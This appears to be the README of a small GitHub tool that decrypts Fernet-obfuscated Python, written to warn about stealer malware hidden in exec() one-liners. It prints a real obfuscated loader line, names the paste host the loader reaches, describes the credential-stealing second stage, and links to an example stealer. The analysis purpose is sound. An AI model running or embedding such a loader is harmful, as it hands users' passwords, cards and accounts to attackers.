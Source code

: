 # Fernet Decrypter
## Overview
this code is simply to decode any type of fernet code that would usually run malware on your computer using python.
fernet is not only used to run malicious software keep that in mind. i am just giving an example 

## example of malicious code
`;exec(Fernet(b'q7MBuNUXpnt4GH9rHx3rNM1_HFsACuJIk1ZCLPBpU7I=').decrypt(b'gAAAAABk8g4eRFjyGDEmrLhaqqcXsILFNwp4eMaESVA1JWnfoVNhhSPBV_1ngtqebygT9MrIQ95jI1aR1fTfmknlOBY_bumaE8dAZ4WotYGKn0K-cRje6R3Ny4G75lRs8bgV5vv50fD0DtiWTKVsT4VP_FeUHA3so_StnOnG-rgPUWkIgiaX9UdRExOsX0eSqzHxP-88zENWuWdYNOflCmEDVdYOhuxYSg=='))`

if we break this code down it shows the normal python type of execution which is using a fernet key and an encrypted message to decoded a message using fernet library. when this code is ran through the decrypter it prints out a website `https://bananasquad.ru/paste`. when entering this site it shows again the same method of execution but now with a much longer encrypted message which when decoded shows a malicious python code that will steal every data on your computer such as passwords, credit card, discord credentials and so on. after downloading the stealer file ([stealer example](https://github.com/Nezar187/Fernet-Decrypter/blob/main/example%20stealer/stealer.py)) it reruns the fernet request with a new token and key.

# conclusion
simply never run any type of python code without looking for hidden execution methods.
this repository is just to inform about malicious injections from fernet.
FERNET IS NOT A VIRUS WHATSOEVER ITS THE TYPE OF MESSAGE OR CODE THAT IS RAN IN IT WHICH IS MALICIOUS


# usage

## requirements
- **Python:** Ensure that Python (version 3.x) is installed on your system.
- **Libraries:** Make sure the `cryptography` library is installed.
  ```bash
  pip install cryptography
  ```

## How to Use
1. **Running the Script:** Execute the Fernet Decrypter script from your command line or terminal.
   ```bash
   python fernet_decrypter.py
   ```
2. **Input:** You will be prompted to enter the Fernet key and the token that you wish to decrypt.
3. **Output:** The decrypted message will be displayed.

## Detailed Description
Fernet Decrypter operates by taking a Fernet encrypted token and the corresponding key as inputs. Utilizing the cryptography library, it decrypts the token, revealing the original message. The tool is straightforward to use, requiring minimal setup and user input, making it suitable for users with various levels of technical expertise.

## Usage Example
```bash
python fernet_decrypter.py
```
the decoded message will be printed on the console

# INFORMATION
PLEASE NOTE THAT YOU SHOULD NOT VISIT THIS SITE OR RUN ANY SCRIPT. I MADE THIS REPOSITORY FOR EDUCATIONAL PURPOSES AND TO INFORM YOU HOW A SIMPLE BUT BAD INJECTION USING FERNET IS DONE.
AGAIN FERNET IS NOT BAD, ONLY THE MESSAGES OR WHAT IS EXECUTED THROUGH IT
